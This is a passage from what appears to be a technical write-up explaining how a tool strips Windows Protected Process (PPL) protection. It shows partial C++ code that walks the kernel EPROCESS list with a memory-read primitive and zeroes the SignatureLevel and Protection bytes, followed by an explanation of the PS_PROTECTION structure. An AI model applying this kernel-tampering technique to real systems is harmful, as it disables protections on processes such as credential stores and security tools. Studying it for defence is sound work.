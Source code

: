 From there, it goes through the process list and uses the __read__ primitive to extract the PID of each `EPROCESS` entry, until it finds the target one.

```cpp
void disableProtectedProcesses(DWORD targetPID, Offsets offsets) {
    // ...
    // 4. Find the Kernel object representing the target process
    const DWORD64 TargetProcessId = static_cast<DWORD64>(targetPID);
    DWORD64 ProcessHead = PsInitialSystemProcessAddress + offsets.ActiveProcessLinksOffset;
    DWORD64 CurrentProcessAddress = ProcessHead;
    do {
        const DWORD64 ProcessAddress = CurrentProcessAddress - offsets.ActiveProcessLinksOffset;
        const auto UniqueProcessId = ReadMemoryDWORD64(Device, ProcessAddress + offsets.UniqueProcessIdOffset);
        if (UniqueProcessId == TargetProcessId) {
            break;
        }
        CurrentProcessAddress = ReadMemoryDWORD64(Device, ProcessAddress + offsets.ActiveProcessLinksOffset);
    } while (CurrentProcessAddress != ProcessHead);
    CurrentProcessAddress -= offsets.ActiveProcessLinksOffset;
    Log("[*] Current process address: %p", CurrentProcessAddress);
    // ...
}
```

Finally, once the base address of the `EPROCESS` structure is known, it __writes 4 null bytes__ at the offset of the `SignatureLevel` member, but why is that?

```cpp
void disableProtectedProcesses(DWORD targetPID, Offsets offsets) {
    // ...
    // 5. Set the protection to 0x00 (= no protection)
    WriteMemoryPrimitive(Device, 4, CurrentProcessAddress + offsets.SignatureLevelOffset, 0x00);
    // ...
}
```

The concept of "Protected Process" was introduced in Windows Vista. At the time, the protection level was stored as a single __bit__ (`ProtectedProcess` member). Since Windows 8.1, we have the concepts of __PP(L)__ and __signer types__, which required a change in the structure. Therefore, the protection level is now stored in the `Protection` member, which is a `PS_PROTECTION` structure.

The term "structure" is a big word though. It is actually a single __byte__, where the __first four bits__ (from left to right) represent the __signer type__, and the __last 3 bits__ the __protection type__ (none, PPL, or PP).

```cpp
typedef struct _PS_PROTECTION {
    union {
        UCHAR Level;
        struct {
            UCHAR Type   : 3;
            UCHAR Audit  : 1; // Reserved
            UCHAR Signer : 4;
        };
    };
} PS_PROTECTION, *PPS_PROTECTION;
```
